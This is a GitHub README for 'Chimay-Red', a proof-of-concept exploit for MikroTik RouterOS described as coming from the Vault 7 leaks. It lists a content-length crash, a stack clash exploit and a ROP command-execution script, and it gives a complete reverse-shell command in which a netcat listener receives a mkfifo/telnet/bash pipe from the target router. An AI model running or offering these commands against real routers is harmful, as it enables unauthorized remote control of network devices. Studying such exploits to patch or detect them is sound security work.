 # Chimay-Red
POC of Mikrotik exploit from Vault 7 CIA Leaks

See the PDF for more info

### Proof of concepts
# CrashPOC  
Simple crash sending -1 as content-length in post header 

# StackClashPOC  
Stack clash exploit using two threads, missing ROP chain

# StackClashROPSystem  
Run bash commands  
For a reverse shell:  
```
$ nc -l -p 1234
$ ./StackClashROPsystem.py 192.168.8.1 www_binary "mkfifo /tmp/f && /bin/telnet 192.168.8.5 1234 < /tmp/f | /bin/bash 
 > /tmp/f 2>&1"
```
Where:  
- RouterOS IP: 192.168.8.1  
- PC IP: 192.168.8.5  

(You have to extract the www binary from the RouterOS firmware, check that the version is correct)
